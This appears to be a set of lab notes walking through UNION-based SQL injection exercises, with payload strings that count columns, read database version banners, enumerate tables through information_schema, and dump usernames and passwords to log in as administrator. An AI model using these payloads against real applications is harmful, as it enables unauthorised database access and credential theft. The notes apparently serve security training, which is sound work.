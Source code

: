 # SQL injection

Step 1 :

Modify the  parameter, giving it the value '+UNION+SELECT+NULL--. Observe that an error occurs.
Modify the  parameter to add an additional column containing a null value: '+UNION+SELECT+NULL,NULL--
Continue adding null values until the error disappears and the response includes additional content containing the null values.

Step 2 :

Determine the number of columns that are being returned by the query. Verify that the query is returning three columns, using the following payload in the category parameter: '+UNION+SELECT+NULL,NULL,NULL--
Try replacing each null with the random value provided by the lab, for example: '+UNION+SELECT+'abcdef',NULL,NULL--
If an error occurs, move on to the next null and try that instead.

Step 3 :

Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter: '+UNION+SELECT+'abc','def'--.
Use the following payload to retrieve the contents of the users table: '+UNION+SELECT+username,+password+FROM+users--
Verify that the application's response contains usernames and passwords.

Step 4 : 

Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, only one of which contain text, using a payload like the following in the category parameter: '+UNION+SELECT+NULL,'abc'--
Use the following payload to retrieve the contents of the users table: '+UNION+SELECT+NULL,username||'~'||password+FROM+users--
Verify that the application's response contains usernames and passwords.


Step 5 : retrive oracle database version

Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter: '+UNION+SELECT+'abc','def'+FROM+dual--
Use the following payload to display the database version: '+UNION+SELECT+BANNER,+NULL+FROM+v$version--

Step 6 : retrive mysql and sql server versions

Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter: '+UNION+SELECT+'abc','def'#
Use the following payload to display the database version: '+UNION+SELECT+@@version,+NULL#

Step 7 : 

Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter: '+UNION+SELECT+'abc','def'--.
Use the following payload to retrieve the list of tables in the database: '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
Find the name of the table containing user credentials.
Use the following payload (replacing the table name) to retrieve the details of the columns in the table: '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
Find the names of the columns containing usernames and passwords.
Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users: '+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
Find the password for the administrator user, and use it to log in.




